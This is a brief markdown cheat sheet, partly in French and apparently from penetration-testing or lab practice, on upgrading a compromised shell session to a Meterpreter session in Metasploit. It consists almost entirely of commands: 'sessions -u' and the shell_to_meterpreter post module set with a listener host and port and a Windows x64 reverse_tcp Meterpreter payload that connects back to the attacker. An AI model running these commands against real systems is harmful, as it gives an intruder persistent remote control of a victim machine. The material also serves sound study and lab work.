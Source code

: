 # Shell_to_meterpreter

## simple

sessions -u <shell>

## toutes les options:

use post/multi/manage/shell_to_meterpreter 
set lport 5555
set lhost 10.10.14.10
set payload windows/x64/meterpreter/reverse_tcp
set session 4


